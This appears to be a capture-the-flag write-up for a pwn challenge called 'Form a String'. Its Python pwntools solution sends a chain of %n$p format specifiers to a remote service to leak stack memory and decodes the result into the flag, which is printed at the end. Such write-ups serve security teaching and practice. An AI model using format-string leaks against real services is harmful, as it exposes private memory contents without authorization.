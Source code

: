 # Form a String

> Points: 50

> Category: pwn

## Description

Every time I input a string, it seems to respond back with the same message. Perhaps there is something we can do to get the flag out of there.

## Attachments

`nc 34.203.197.39 3000`

https://imaginary.ml/r/BC4B-Form_a_String.rar

## Solution

```py
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote("34.203.197.39", 3000)
r.recvline()

query = ""
for i in range(1, 25):
    query += "%{}$p ".format(str(i))

r.sendline(query.encode())
res = r.recvline().decode().split(" ")
#print(res)
for i in res:
    try:
        print(long_to_bytes(int(i, 16))[::-1])
    except Exception as e:
        continue
```

### Flag

> ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}

